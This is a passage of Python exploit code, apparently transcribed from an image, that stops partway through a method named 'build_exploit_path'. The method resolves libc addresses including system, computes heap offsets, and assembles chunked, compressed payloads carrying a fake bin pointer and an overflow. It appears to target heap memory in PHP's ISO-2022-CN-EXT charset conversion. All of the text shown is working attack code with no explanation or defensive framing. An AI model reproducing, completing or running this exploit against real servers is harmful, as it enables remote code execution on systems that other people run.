 ```python

    def build_exploit_path(self) -> str:

        LIBC = self.info["libc"]
        ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
        ADDR_EFREE = LIBC.symbols["__libc_system"]
        ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]

        ADDR_HEAP = self.info["heap"]
        ADDR_FREE_SLOT = ADDR_HEAP + 0x20
        ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168

        ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10

        CS = 0x100

        # Pad needs to stay at size 0x100 at every step
        pad_size = CS - 0x18
        pad = b"\x00" * pad_size
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = compressed_bucket(pad)

        step1_size = 1
        step1 = b"\x00" * step1_size
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1, CS)
        step1 = compressed_bucket(step1)

        # Since these chunks contain non-UTF-8 chars, we cannot let it get converted to
        # ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash"

        step2_size = 0x48
        step2 = b"\x00" * (step2_size + 8)
        step2 = chunked_chunk(step2, CS)
        step2 = chunked_chunk(step2)
        step2 = compressed_bucket(step2)

        step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN)
        step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
        step2_write_ptr = chunked_chunk(step2_write_ptr)
        step2_write_ptr = compressed_bucket(step2_write_ptr)

        step3_size = CS

        step3 = b"\x00" * step3_size
        assert len(step3) == CS
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = compressed_bucket(step3)

        step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG
        assert len(step3_overflow) == CS
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = compressed_bucket(step3_overflow)

        step4_size = CS
        step4 = b"=00" + b"\x00" * (step4_size - 1)
```